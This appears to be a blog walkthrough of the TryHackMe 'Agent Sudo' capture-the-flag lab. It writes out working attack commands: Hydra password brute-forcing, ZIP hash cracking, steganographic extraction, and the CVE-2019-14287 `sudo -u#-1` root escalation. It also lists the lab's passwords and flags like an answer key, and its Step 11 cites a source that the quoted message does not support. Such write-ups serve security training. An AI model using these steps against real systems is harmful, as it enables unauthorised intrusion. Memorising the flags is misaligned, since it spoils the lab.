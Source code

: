 ```yaml
---
title: "TryHackMe - Agent Sudo CTF Walkthrough"
date: 2024-12-25
categories: [TryHackMe]
tags: [CTF, FTP, Steganography, Privilege Escalation]
image: assets/images/agent-sudo_Cover.jpg
---
```


# TryHackMe - Agent Sudo CTF Walkthrough

---

## Step 1: Network Scanning

Use Nmap to scan the target and identify open ports and services.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt 10.10.89.193
```

### Results:
- **Open Ports**:
  - Port 21: FTP (vsftpd 3.0.3)
  - Port 22: SSH (OpenSSH 7.6p1)
  - Port 80: HTTP (Apache 2.4.29)
- **Interesting HTTP Title**: `Announcement`
- **Total Open Ports**: `3`

---

## Step 2: Directory Enumeration

Enumerate directories using Gobuster.

```bash
sleep33@THM:~$ gobuster dir -u http://10.10.89.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log,bak,old
```

### Results:
- `/index.php` (Status: 200)
- `.html` and `.php` (Status: 403)
- Secret page accessible via modifying the `User-Agent` header.

---

## Step 3: Investigating FTP Service

Attempt to brute-force FTP credentials using Hydra.

```bash
sleep33@THM:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.193 ftp
```

### Credentials Found:
- **Username:** `chris`
- **Password:** `crystal`

---

## Step 4: Exploring FTP

Log in to the FTP server and list its contents.

```bash
ftp> ls -la
```

### Files Found:
- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

Download the files for further analysis.

---

## Step 5: Analyzing `cutie.png`

Use Binwalk to inspect the file for hidden data.

```bash
sleep33@THM:~$ binwalk cutie.png
```

### Findings:
- Encrypted ZIP archive located at offset `0x8702`.

Extract the ZIP file.

```bash
sleep33@THM:~$ binwalk cutie.png -e
```

---

## Step 6: Cracking the ZIP File

Use `zip2john` to extract the hash and `john` to crack the password.

```bash
sleep33@THM:~$ zip2john 8702.zip > zip_hash.txt
sleep33@THM:~$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

### Password Found:
- **Password:** `alien`

Extract the contents of the ZIP file. Inside, you find a message: `QXJlYTUx` which decodes to `Area51`.

---

## Step 7: Analyzing `cute-alien.jpg`

Use Steghide to extract hidden data from the image.

```bash
sleep33@THM:~$ steghide extract -sf cute-alien.jpg
```

### Results:
- **Passphrase:** `Area51`
- **Extracted File:** `message.txt`

Contents of `message.txt`:
```
Hi James,

Glad you find this message. Your login password is hackerrules!

Your buddy,
Chris
```

---

## Step 8: SSH Access

Log in via SSH using the provided credentials.

```bash
sleep33@THM:~$ ssh james@10.10.89.193
```

### Credentials:
- **Username:** `james`
- **Password:** `hackerrules`

Once logged in, locate the `user_flag.txt`.

```bash
james@agent-sudo:~$ cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

---

## Step 9: Privilege Escalation

Check `sudo` permissions.

```bash
james@agent-sudo:~$ sudo -l
```

### Results:
- `(ALL, !root) /bin/bash`

Exploit the misconfigured `sudo` permissions to gain root access.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
# whoami
root
```

Escalation exploit: **CVE-2019-14287**

---

## Step 10: Retrieving the Root Flag

Locate and read the `root_flag.txt`.

```bash
root@agent-sudo:~$ cat /root/root_flag.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```

---

## Step 11: Identifying Agent R

Agent R is referenced multiple times throughout the challenge. Their identity is clarified in `message.txt`.

**Agent R:** `Roswell alien autopsy`

---

## Summary

In this walkthrough, we enumerated services, brute-forced FTP credentials, used steganography to uncover hidden messages, escalated privileges using misconfigured `sudo` permissions, and retrieved both the user and root flags.

### Key Information:
- **FTP Password:** `crystal`
- **ZIP Password:** `alien`
- **Steg Password:** `Area51`
- **SSH Password:** `hackerrules`
- **Agent Name:** `Chris`
- **Other Agent Full Name:** `James`
- **Incident:** `Roswell alien autopsy`
- **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`
- **Root Flag:** `b53a02f55b57d4439e3341834d70c062`
